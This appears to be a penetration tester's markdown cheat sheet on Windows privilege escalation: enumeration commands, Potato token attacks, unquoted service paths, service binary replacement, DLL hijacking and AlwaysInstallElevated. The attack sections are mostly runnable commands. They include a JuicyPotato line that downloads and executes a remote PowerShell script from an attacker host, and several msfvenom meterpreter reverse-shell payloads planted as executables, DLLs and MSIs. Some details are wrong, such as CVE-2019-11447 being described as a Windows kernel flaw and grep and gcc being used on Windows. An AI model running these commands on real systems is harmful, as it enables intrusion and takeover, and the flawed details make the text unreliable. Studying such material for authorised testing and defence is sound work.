

# 🪟 Windows Privilege Escalation

> [!info] Windows Token Model
> Windows uses **tokens** (not traditional Unix permissions). Understanding token impersonation is KEY to Windows privesc.

---

## 🎯 Windows Privesc Attack Map



---

## 🔍 Phase 1: Enumeration

### Current User & Privileges

```powershell
# Current user
whoami
whoami /all              # ALL PRIVILEGES!

# Check specific privileges
whoami /priv

# Group membership
net user USERNAME

# Administrator check
net localgroup administrators
```

### Critical Privilege Check

Look for these **golden tickets**:

| Privilege | Exploit |
|-----------|---------|
| **SeImpersonate** | Potato variants (JuicyPotato, etc.) |
| **SeAssignPrimaryToken** | Potato variants |
| **SeDebug** | Steal token from other process |
| **SeTakeOwnership** | Change file ownership |
| **SeLoadDriver** | Load malicious drivers |
| **SeSystemTime** | Manipulate system time |

### Windows Version & Patches

```powershell
# OS Version
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

# Installed patches (KB numbers)
systeminfo | findstr /B /C:"Hotfix"

# Check for specific CVEs
# https://www.exploit-db.com -> search CVE-YYYY-XXXXX
```

### Services & File Permissions

```powershell
# Running services
Get-Service

# Service details
Get-Service | Select-Object Name, StartType, Status

# Check service executable paths
wmic service get name,displayname,pathname,startmode

# Check for unquoted service paths
wmic service get name,displayname,pathname |  findstr /i /v "C:\Windows"

# Check DLL locations
tasklist /v

# File permissions
icacls "C:\Program Files\VulnerableApp"

# Find writable directories
Get-ChildItem -Path C:\Temp -Recurse | Get-Acl | Where-Object {$_.AccessToString -match "Everyone|Authenticated Users|BUILTIN\\Users"}
```

### Running Processes (as SYSTEM/Administrator)

```powershell
# All processes
Get-Process

# With owner info
Get-Process | Select-Object Name, Id, @{Name='Owner';Expression={(Get-Process -Id $_.Id | Select-Object @{Name='Owner';Expression={(Get-CimInstance -ClassName Win32_Process -Filter "ProcessId=$($_.Id)" | Select-Object -ExpandProperty GetOwner).User}}).Owner}}

# Via tasklist
tasklist /v | findstr "SYSTEM"
```

### Registry Permissions

```powershell
# Find writable registry keys
reg query HKLM /s /v

# Check specific keys
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion"

# Check Run keys (persistence)
reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Run"
```

---

## 🔴 Vector 1: SeImpersonate Privilege (Potato Attack)

**What:** Token impersonation = create new process with admin token

### Using JuicyPotato

```powershell
# Download: https://github.com/ohpe/juicy-potato/releases

# Run command as SYSTEM
.\JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c powershell -nop -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10/shell.ps1')" -t *

# Parameters:
# -l: COM port
# -p: program to execute
# -a: arguments
# -t: token type (* = try all)
```

### Using PrintSpoofer (Newer)

```powershell
# Download: https://github.com/itm4n/PrintSpoofer

# Get reverse shell
.\PrintSpoofer.exe -i -c powershell.exe

# Or execute command
.\PrintSpoofer.exe -c "cmd.exe /c whoami"
```

### Using RoguePotato

```powershell
# For older Windows without Print Spooler

.\RoguePotato.exe -r 192.168.1.100 -l 9999 -e "C:\Windows\System32\cmd.exe"
```

---

## 🛣️ Vector 2: Unquoted Service Paths

**What:** Service path without quotes → can be hijacked

### Finding Unquoted Paths

```powershell
# Find all unquoted paths
wmic service get name,displayname,pathname,startmode | findstr /v "C:\Windows" | findstr /i /v "Quoted"

# Manual check
reg query HKLM\SYSTEM\CurrentControlSet\Services
```

### Exploitation Example

```
Service: VulnerableService
Path: C:\Program Files\VulnApp\service.exe

Potential paths tried:
1. C:\Program.exe
2. C:\Program Files\VulnApp\service.exe
```

**Exploit:**

```powershell
# Create malicious "Program.exe"
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe -o C:\Program.exe

# Restart service
net stop VulnerableService
net start VulnerableService

# Your payload executes
```

---

## 🔧 Vector 3: Weak Service Permissions

**What:** User can modify service executable or properties

### Check Service Permissions

```powershell
# Check who can modify service
icacls "C:\Path\To\Service.exe"

# Check service registry permissions
reg query "HKLM\SYSTEM\CurrentControlSet\Services\ServiceName"
```

### Exploitation: Replace Service Binary

```powershell
# Check if you can write to service directory
icacls "C:\Program Files\Service"

# If writable:
# 1. Back up original
copy "C:\Program Files\Service\service.exe" "C:\Temp\service.exe.bak"

# 2. Create malicious executable
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe -o "C:\Program Files\Service\service.exe"

# 3. Restart service or wait for automatic restart
net stop ServiceName
net start ServiceName
```

---

## 📦 Vector 4: DLL Hijacking

**What:** Process loads DLL from world-writable directory before system DLL

### Finding Vulnerable DLLs

```powershell
# Monitor DLL loading with Process Monitor (Sysinternals)
# https://docs.microsoft.com/en-us/sysinternals/downloads/procmon

# Or use Procmon to find missing DLLs
```

### Exploitation

```powershell
# If process loads from C:\Temp\missing.dll

# 1. Create malicious DLL (msfvenom)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f dll -o C:\Temp\missing.dll

# 2. Run application
# DLL gets loaded as SYSTEM if service runs as SYSTEM
```

---

## 🔓 Vector 5: Unquoted Scheduled Tasks

**What:** Scheduled task with unquoted path

### Find Scheduled Tasks

```powershell
# List all tasks
tasklist /svc | grep Task
schtasks /query /tn * /fo list /v

# Check specific task
schtasks /query /tn "TaskName" /fo list /v

# Check XML config
Get-ScheduledTask | Export-ScheduledTask -TaskName "TaskName" | Get-Content
```

---

## 🔑 Vector 6: AlwaysInstallElevated

**What:** Group policy allows non-admin MSI installation as SYSTEM

### Check for AlwaysInstallElevated

```powershell
# Check registry
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# If both = 1, vulnerable!
```

### Exploitation

```powershell
# Create malicious MSI
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f msi -o evil.msi

# Install (runs as SYSTEM!)
msiexec /i evil.msi

# Get shell
```

---

## 💻 Vector 7: Kernel Exploits

**What:** Vulnerability in Windows kernel itself

### Find Kernel Exploits

```powershell
# Get Windows version
systeminfo

# Search Exploit-DB
searchsploit "Windows 10 21H2"

# Common kernel exploits:
# - CVE-2019-1405: Win7 Service Isolation
# - CVE-2019-11447: Win10 race condition
# - CVE-2021-1732: Win10 post-exploitation
```

### Using Exploit

```powershell
# Compile and run
gcc kernel_exploit.c -o exploit.exe
.\exploit.exe

# Often spawns cmd.exe as SYSTEM
```

---

## 🔍 Vector 8: Weak File Permissions

**What:** Critical files writable by non-admin

### Find Writable Critical Files

```powershell
# Check specific directories
icacls C:\Windows\System32
icacls "C:\Program Files"

# Look for user-writable system files
```

---

## 📊 Automated Enumeration Tools

### PowerUp (Automated Windows Privesc Scout)

```powershell
# Download: https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

# Run
. .\PowerUp.ps1
Invoke-AllChecks

# Find vulnerabilities automatically!
```

### winPEAS (Similar to linPEAS)

```cmd
# Download: https://github.com/carlospolop/PEASS-ng

# Run
.\winPEAS.exe
```

### Seatbelt (Multi-function enumeration)

```powershell
# https://github.com/GhostPack/Seatbelt

.\Seatbelt.exe all
```

---

## 📋 Complete Windows Privesc Checklist

- [ ] Check current user privileges (`whoami /all`)
- [ ] Look for **SeImpersonate** privilege
- [ ] Run PowerUp.ps1 (automated checks)
- [ ] Check for unquoted service paths
- [ ] Test weak service permissions
- [ ] Check scheduled tasks for DLL hijacking
- [ ] Look for AlwaysInstallElevated
- [ ] Check kernel version for known exploits
- [ ] Review running processes for tokens
- [ ] Check for cleartext passwords in registry
- [ ] Look for weak file permissions

---

## 💡 Pro Tips

> [!tip] SeImpersonate is King
> If you have SeImpersonate, you're usually SYSTEM. Use Potato attack.

> [!tip] Check systeminfo First
> Identifies OS, patches, and potential kernel exploits in one command.

> [!danger] Kernel Exploits are Last Resort
> Can crash system. Only use if other methods fail.

---

**Related Notes:**
- [[01-Methodology/Pentest-Methodology|🗺️ Pentest Methodology]]
- [[03-Windows/Active-Directory|👑 Active Directory Attacks]]

---
